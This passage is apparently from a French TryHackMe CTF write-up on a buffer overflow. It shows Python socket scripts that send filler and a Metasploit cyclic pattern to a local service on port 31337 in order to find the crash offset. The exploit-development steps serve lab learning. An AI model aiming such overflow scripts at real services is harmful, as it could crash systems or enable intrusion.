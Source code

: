 
L'adresse à été écrasé pas la chaîne AAAA.   

```python
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


filler = ""
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On va créer un programme pour trouver l'offset.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msf-pattern_create -l 210
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9
```

On créer un chaîne pour trouver l'offset on l'inclut dans notre script python.   

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat findoffset.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


filler = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9"
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```
